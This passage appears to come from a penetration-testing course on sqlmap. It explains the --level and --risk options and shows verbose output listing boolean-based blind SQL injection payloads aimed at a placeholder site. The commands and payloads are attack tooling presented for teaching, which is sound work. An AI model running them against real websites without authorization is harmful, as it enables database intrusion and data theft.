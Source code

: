 - The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).
    

The best way to check for differences between used boundaries and payloads for different values of `--level` and `--risk`, is the usage of `-v` option to set the verbosity level. In verbosity 3 or higher (e.g. `-v 3`), messages containing the used `[PAYLOAD]` will be displayed, as follows:


```shell-session
smoothment@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

On the other hand, payloads used with the default `--level` value have a considerably smaller set of boundaries:

```shell-session
smoothment@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

As for vectors, we can compare used payloads as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```
